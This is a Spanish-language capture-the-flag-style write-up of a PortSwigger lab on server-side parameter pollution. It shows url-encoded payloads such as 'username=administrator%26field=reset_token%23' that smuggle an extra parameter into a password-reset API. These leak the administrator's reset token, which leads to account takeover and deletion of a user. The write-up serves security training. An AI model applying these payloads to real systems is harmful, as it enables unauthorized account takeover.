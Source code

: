 ```yaml
---
title: API Testing Lab 2
date: 2025-02-16 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - API Testing
tags:
  - API Testing
  - Exploiting server-side parameter pollution in a query string
image:
  path: /assets/img/API-Testing-Lab-2/Portswigger.png
---
```


## Skills

- Exploiting server-side parameter pollution in a query string

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Para `resolver` el laboratorio, debemos `iniciar sesión` como el usuario `administrator` y `borrar` el usuario `carlos`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/API-Testing-Lab-2/image_1.png)

Pulsamos sobre `My account` y posteriormente sobre `Forgot password?`

![](/assets/img/API-Testing-Lab-2/image_2.png)

`Introducimos` el nombre `administrator`

![](/assets/img/API-Testing-Lab-2/image_3.png)

Si nos vamos a la `extensión Logger ++` vemos esto

![](/assets/img/API-Testing-Lab-2/image_4.png)

Hay casos en los que podemos `contaminar` los `parámetros` que se `envían` al `servidor`, en este caso estamos usando `#` urlencodeado para ver si podemos `truncar` el `resto` de `parámetros` de la `query`

```
csrf=iKKdRZ0MDh7Ms7H0thbHhJ4Sif5lI4De&username=administrator%23
```

![](/assets/img/API-Testing-Lab-2/image_5.png)

Con el payload `&field=test` urlencodeado estamos intentando `inyectar` ese `parámetro` en la `query`. En el caso de que haya `dos parámetros` con el `mismo nombre`, uno el propio de la `query` y otro el que nosotros hemos inyectado, la `API` los `interpretará` de diferente forma `dependiendo` del la `tecnología` que se utilice. Por ejemplo, `PHP` solo `analiza` el `último parámetro`, `ASP.NET combina ambos parámetros` y `Node.js/Express` solo `analiza` el `primer parámetro`

```
csrf=iKKdRZ0MDh7Ms7H0thbHhJ4Sif5lI4De&username=administrator%26field=test
```

![](/assets/img/API-Testing-Lab-2/image_6.png)

`Truncamos el resto de la query añdiendo # urlencodeado al final` y seguimos obteniendo la `misma respuesta`, lo cual nos sugiere que el `servidor` puede `reconocer` como `válido` el `parámetro` que hemos `inyectado`

```
csrf=iKKdRZ0MDh7Ms7H0thbHhJ4Sif5lI4De&username=administrator%26field=test%23
```

Lo siguiente que debemos hacer es enviar la `petición` al `Intruder`

![](/assets/img/API-Testing-Lab-2/image_7.png)

Nos dirigimos a `Payloads` y seleccionamos como payload `Server-side variable names`

![](/assets/img/API-Testing-Lab-2/image_8.png)

`Obtenemos` dos `campos válidos`, `username` y `email`

![](/assets/img/API-Testing-Lab-2/image_9.png)

Si asignamos el campo `field=username` obtenemos el `nombre` del `usuario`

![](/assets/img/API-Testing-Lab-2/image_10.png)

Si asignamos el campo `field=email` obtenemos el `mismo mensaje` que veces anteriores

![](/assets/img/API-Testing-Lab-2/image_11.png)

Si `inspeccionamos` el `código fuente` vemos que existe este `archivo js`

![](/assets/img/API-Testing-Lab-2/image_12.png)

Si accedemos a `https://0a7d001103cc125d87a50cae009d00b5.web-security-academy.net/static/js/forgotPassword.js` veremos todo su contenido

```
let forgotPwdReady = (callback) => {
    if (document.readyState !== "loading") callback();
    else document.addEventListener("DOMContentLoaded", callback);
}

function urlencodeFormData(fd){
    let s = '';
    function encode(s){ return encodeURIComponent(s).replace(/%20/g,'+'); }
    for(let pair of fd.entries()){
        if(typeof pair[1]=='string'){
            s += (s?'&':'') + encode(pair[0])+'='+encode(pair[1]);
        }
    }
    return s;
}

const validateInputsAndCreateMsg = () => {
    try {
        const forgotPasswordError = document.getElementById("forgot-password-error");
        forgotPasswordError.textContent = "";
        const forgotPasswordForm = document.getElementById("forgot-password-form");
        const usernameInput = document.getElementsByName("username").item(0);
        if (usernameInput && !usernameInput.checkValidity()) {
            usernameInput.reportValidity();
            return;
        }
        const formData = new FormData(forgotPasswordForm);
        const config = {
            method: "POST",
            headers: {
                "Content-Type": "x-www-form-urlencoded",
            },
            body: urlencodeFormData(formData)
        };
        fetch(window.location.pathname, config)
            .then(response => response.json())
            .then(jsonResponse => {
                if (!jsonResponse.hasOwnProperty("result"))
                {
                    forgotPasswordError.textContent = "Invalid username";
                }
                else
                {
                    forgotPasswordError.textContent = `Please check your email: "${jsonResponse.result}"`;
                    forgotPasswordForm.className = "";
                    forgotPasswordForm.style.display = "none";
                }
            })
            .catch(err => {
                forgotPasswordError.textContent = "Invalid username";
            });
    } catch (error) {
        console.error("Unexpected Error:", error);
    }
}

const displayMsg = (e) => {
    e.preventDefault();
    validateInputsAndCreateMsg(e);
};

forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```

Lo que más llama la atención es el parámetro `reset_token`, si nosotros ponemos ese campo `obtendremos` el `reset token` del usuario `administrador`. El campo `type` tiene los valores `username` y `email` y ambos se han podido `añadir` como un `parámetro` extra en la `query`, por lo tanto cabía la `posibilidad` de que también pudiéramos añadir `reset_token` 

```
csrf=iKKdRZ0MDh7Ms7H0thbHhJ4Sif5lI4De&username=administrator%26field=reset_token
```

![](/assets/img/API-Testing-Lab-2/image_13.png)

Si accedemos a `https://0a7d001103cc125d87a50cae009d00b5.web-security-academy.net/forgot-password?reset_token=od0enk6i7aqpjksrhv7pm1x19pactjbb` podremos `cambiarle` la `contraseña` al usuario `administrador`

![](/assets/img/API-Testing-Lab-2/image_14.png)

Nos `logueamos` como el usuario `administrador`

![](/assets/img/API-Testing-Lab-2/image_15.png)

![](/assets/img/API-Testing-Lab-2/image_16.png)

Pulsamos sobre `Admin panel` y `eliminamos` al usuario `carlos`

![[image_17.png]]

![[image_18.png]]
